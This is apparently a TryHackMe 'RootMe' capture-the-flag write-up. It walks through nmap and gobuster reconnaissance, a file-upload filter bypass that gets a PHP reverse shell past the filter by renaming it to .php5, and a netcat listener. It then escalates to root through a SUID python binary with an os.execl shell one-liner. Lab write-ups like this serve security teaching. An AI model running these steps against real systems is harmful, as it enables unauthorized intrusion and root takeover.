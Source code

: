 ```yaml
---
title: Rootme  -  TryHackMe Writeup
author: D_C4ptain
date: 2022-10-23 00:00:00 +0300
categories: [tryhackme, write up]
tags: [tryhackme, write up, walkthrough, ctf, thm, rootme, php, bypass, upload, privilege escalation, netcat, apache, nmap, gobuster, file upload, shell, suid, tryhackme walkthrough, tryhackme writeup, d_captain, D_C4ptain]
math: true
mermaid: true
image:
  path: https://cdn-images-1.medium.com/max/2368/1*-OBtC8ObjmYVcdyXpLDTGg.png
---
```


A ctf for beginners, can you root me?

[Room link here](https://tryhackme.com/room/rrootme)

## **Task 1 — Deploy the machine**

![](https://cdn-images-1.medium.com/max/2390/1*aYA-3lhFkpYlg-1AYVDoNg.png)

## **Task 2 — Reconnaissance**

### 1. Scan the machine, how many ports are open?

Let’s do a simple nmap scan.

    sudo nmap -sV 10.10.67.173

![](https://cdn-images-1.medium.com/max/2000/1*Jv7x5s2bBIl25HfasWOLeg.png)

### 2. What version of Apache is running?
### 3. What service is running on port 22?
**See above

### 4. Find directories on the web server using the GoBuster tool.**

    gobuster dir -u http://10.10.67.173 -w /usr/share/wordlists/dirb/common.txt

### 5. What is the hidden directory?**

![](https://cdn-images-1.medium.com/max/2000/1*mRZZy-SjzdhIUWR_ES0HKg.png)

## **Task 3 — Getting a shell**

**Find a form to upload and get a reverse shell, and find the flag.
user.txt**

Found a form in one of the hidden directories.

![](https://cdn-images-1.medium.com/max/2000/1*C9LJlfkxW5z4O9Vt5Mjc6g.png)

Let’s upload a php reverse shell by pentestmonkey.
[reverse shell here](https://github.com/pentestmonkey/php-reverse-shell).  
[shell walk through here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

![](https://cdn-images-1.medium.com/max/2000/1*bePOSahkXTYQeLFgPYCW8g.png)

That is very not looking good, looks like our script upload was blocked.  
Let’s change the php file extension to “php5" and upload it again.  
(Explore on [file upload bypass](https://steflan-security.com/file-upload-restriction-bypass-cheat-sheet/) as this is about [File Upload Vilnerability](https://portswigger.net/web-security/file-upload))

![](https://cdn-images-1.medium.com/max/2000/1*V3gwad8g7ovBggHltHD3Gw.png)

We go on green.
Listen to the shell with netcat(changed my listening port).

    nc -lnvp 5555

Navigate to the php script and check netcat.  
(Damn! I always forget disabling my firewall — parrot)

Finally!

![](https://cdn-images-1.medium.com/max/2146/1*G8p-nIRREyS3lUDLqqgr_A.png)

Let’s search for the flag user.txt

    find . -name user.txt 2>/dev/null

![](https://cdn-images-1.medium.com/max/2000/1*RKhzF3YvUTjD6pg_8ykd2w.png)

Nice, kill that rat!

## **Task 4 Privilege escalation**

**(Usually my best parts)**

### 1. Search for files with SUID permission, which file is weird?.**

Using:

    find / -user root -perm /4000

Found python with SUID permissions meaning it does not drop elevated privileges.

![](https://cdn-images-1.medium.com/max/2000/1*gw25QJ7hivGvdZ2_69XHjg.png)

### 2. Find a form to escalate your privileges.**

Let’s get root access with:

    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![](https://cdn-images-1.medium.com/max/2000/1*8Hl-UBfrLgxb_DleKF5bFA.png)

See [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

There we go, we are powerful now.

### 3. root.txt**

Let’s look for flag with:

    find . -name root.txt 2>/dev/null

![](https://cdn-images-1.medium.com/max/2000/1*GVKWpOvv41TG8SVzhTgJDg.png)

Nice, kill that rat!

Well, There are many ways of killing a rat!

[Originally posted on medium](https://d-captain.medium.com/rootme-tryhackme-df5dad43160d).

Happy Hacking.
